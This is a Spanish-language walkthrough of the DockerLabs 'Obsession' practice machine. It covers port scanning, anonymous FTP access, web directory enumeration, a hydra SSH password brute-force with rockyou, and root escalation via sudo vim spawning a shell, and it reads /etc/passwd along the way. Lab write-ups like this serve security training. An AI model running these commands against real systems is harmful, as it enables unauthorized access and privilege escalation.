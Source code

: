 ```yaml
---
title: Obsession
description: DockerLabs es una plataforma gratuita diseñada para practicar hacking ético al alcance de todo el mundo utilizando Docker. DockerLabs ofrece un entorno seguro y accesible para desplegar laboratorios vulnerables de la forma más eficiente y sencilla posible.
date: 2025-01-04
toc: true
pin: false
image:
 path: /assets/img/dockerlabs-writeup-obsession/obsession_logo.png
categories:
  - Docker_Labs
tags:
  - linux
  - dockerlabs
  - ftp
  - ssh
  - http
  - tcp
  - fuzzing_web
  - data_leaks
  - password_attacks
  - sudo_abuse
  - information_gathering
  - vulnerability_exploitation
  - misconfiguration_exploitation
  - web_analysis
  - privilege_escalation

---
```

## Information Gathering

El análisis inicial comienza con el comando ping para confirmar la accesibilidad de la máquina objetivo en la red.

```terminal
/home/kali/Documents/dockerlabs/obsession:-$ ping -c 1 127.17.0.2
PING 127.17.0.2 (127.17.0.2) 56(84) bytes of data.
64 bytes from 127.17.0.2: icmp_seq=1 ttl=64 time=0.046 ms

--- 127.17.0.2 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 0.046/0.046/0.046/0.000 ms
```

Realizo un escaneo agresivo de puertos con nmap, lo que me permite identificar rápidamente todos los puertos abiertos.

```terminal
/home/kali/Documents/dockerlabs/obsession:-$ sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn -oG nmap1 127.17.0.2
Host: 127.17.0.2 ()     Status: Up
Host: 127.17.0.2 ()     Ports: 21/open/tcp//ftp///, 22/open/tcp//ssh///, 80/open/tcp//http///   Ignored State: closed (65532)
```

Profundizo en los puertos detectados, recopilando información detallada sobre los servicios y versiones en ejecución.

```terminal
/home/kali/Documents/dockerlabs/obsession:-$ sudo nmap -sCV -p21,22,80 -vvv -oN nmap2 127.17.0.2
PORT   STATE SERVICE REASON         VERSION
21/tcp open  ftp     syn-ack ttl 64 vsftpd 3.0.5
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| -rw-r--r--    1 0        0             667 Jun 18  2024 chat-gonza.txt
|_-rw-r--r--    1 0        0             315 Jun 18  2024 pendientes.txt
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:127.0.0.1
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.5 - secure, fast, stable
|_End of status
22/tcp open  ssh     syn-ack ttl 64 OpenSSH 9.6p1 Ubuntu 3ubuntu13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 60:05:bd:a9:97:27:a5:ad:46:53:82:15:dd:d5:7a:dd (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBICJkT7eK4HDkyFx9Sdx52QBKAlOxD2HlDN9dnPLkFaFXa2pI5bRqIRDmJLAkBTyyx2/ifDUCyl0uGyB2ExHvQ8=
|   256 0e:07:e6:d4:3b:63:4e:77:62:0f:1a:17:69:91:85:ef (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIFYEzfToqDm7m3dRLdvXwcIhNZzbIgwquUJvnII1jjJn
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.58 ((Ubuntu))
| http-methods: 
|_  Supported Methods: POST OPTIONS HEAD GET
|_http-server-header: Apache/2.4.58 (Ubuntu)
|_http-title: Russoski Coaching
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

Utilizo WhatWeb para obtener detalles del servidor web. E identifico un correo electrónico que podría ser útil para ataques dirigidos o como pista.

```terminal
/home/kali/Documents/dockerlabs/obsession:-$ whatweb 127.17.0.2
http://127.17.0.2 [200 OK] Apache[2.4.58], Country[RESERVED][ZZ], Email[russoski@dockerlabs.es], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.58 (Ubuntu)], IP[127.17.0.2], Title[Russoski Coaching]
```

---
## Misconfiguration Exploitation

El servidor tiene habilitado el servicio FTP. Intento una conexión utilizando el usuario ```anonymous```, lo que resulta exitoso.

Al listar el contenido disponible en el servidor FTP, encuentro dos archivos de texto: ```chat-gonza.txt``` y ```pendientes.txt```. Descargo ambos archivos para su análisis local.

```terminal
/home/kali/Documents/dockerlabs/obsession:-$ ftp anonymous@127.17.0.2
Connected to 127.17.0.2.
220 (vsFTPd 3.0.5)
331 Please specify the password.
Password: anonymous
230 Login successful.
```

![](assets/img/dockerlabs-writeup-obsession/obsession1.png)
![](assets/img/dockerlabs-writeup-obsession/obsession2.png)

---
## Web Analysis

Durante el análisis inicial del servicio web, detecto una página aparentemente funcional.

![](assets/img/dockerlabs-writeup-obsession/obsession3.png)

El formulario cercano al final no parece realizar ninguna acción. Al inspeccionar el código fuente, encuentro un comentario que contiene una pista clave.

![](assets/img/dockerlabs-writeup-obsession/obsession4.png)
![](assets/img/dockerlabs-writeup-obsession/obsession5.png)

Utilizo dirb para enumerar directorios ocultos en el servidor web.

```terminal
/home/kali/Documents/dockerlabs/obsession:-$ dirb http://127.17.0.2
---- Scanning URL: http://127.17.0.2/ ----
==> DIRECTORY: http://127.17.0.2/backup/
==> DIRECTORY: http://127.17.0.2/important/
+ http://127.17.0.2/index.html (CODE:200|SIZE:5208)
+ http://127.17.0.2/server-status (CODE:200|SIZE:16029)
```

De estos resultados, el directorio ```/backup/``` contiene un archivo interesante ```backup.txt```. El contenido de este archivo confirma la sospecha inicial.

![](assets/img/dockerlabs-writeup-obsession/obsession6.png)
![](assets/img/dockerlabs-writeup-obsession/obsession7.png)

---
## Vulnerability Exploitation

Con el nombre de usuario ```russoski```, realizo un ataque de fuerza bruta contra el servicio SSH.

```terminal
/home/kali/Documents/dockerlabs/obsession:-$ sudo hydra -l russoski -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2 -t 10 -I
[22][ssh] host: 172.17.0.2   login: russoski   password: iloveme
```

![](assets/img/dockerlabs-writeup-obsession/obsession8.png)

El ataque tiene éxito y obtengo las credenciales SSH.

```terminal
/home/kali/Documents/dockerlabs/obsession:-$ ssh russoski@127.17.0.2
russoski@127.17.0.2's password: iloveme

russoski@kali:~$ id
uid=1001(russoski) gid=1001(russoski) groups=1001(russoski),100(users)
```

---
## Privilege Escalation

```terminal
russoski@kali:~$ cat /etc/passwd | grep /bash$
root:x:0:0:root:/root:/bin/bash
ubuntu:x:1000:1000:Ubuntu:/home/ubuntu:/bin/bash
russoski:x:1001:1001:Juan Carlos,,,,Aesthetics Over Everything:/home/russoski:/bin/bash
```

El usuario ```russoski``` puede ejecutar el comando ```/usr/bin/vim``` como ```root```.

```terminal
russoski@kali:~$ sudo -l
Matching Defaults entries for russoski on kali:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User russoski may run the following commands on kali:
    (root) NOPASSWD: /usr/bin/vim
```

Consultando [GTFOBins](<https://gtfobins.github.io/gtfobins/vim/#sudo>), encuentro que vim puede ser utilizado para ejecutar una shell con privilegios elevados cuando se invoca con sudo.

```terminal
russoski@kali:~$ sudo /usr/bin/vim -c ':!/bin/sh'
# id
uid=0(root) gid=0(root) groups=0(root)
```